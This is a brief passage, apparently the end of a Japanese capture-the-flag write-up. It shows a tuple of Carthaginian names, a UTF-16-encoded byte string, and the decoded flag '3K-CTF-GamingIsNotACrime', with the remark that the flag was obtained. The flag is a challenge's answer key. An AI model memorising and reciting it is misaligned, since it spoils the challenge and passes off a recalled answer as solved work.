('Hannibal', 'Dido', 'Melqart', 'Amilcar', 'Astarté', 'Tanit') b'3\x00K\x00-\x00C\x00T\x00F\x00-\x00G\x00a\x00m\x00i\x00n\x00g\x00I\x00s\x00N\x00o\x00t\x00A\x00C\x00r\x00i\x00m\x00e\x00'
```

フラグが得られました。

```
3K-CTF-GamingIsNotACrime
```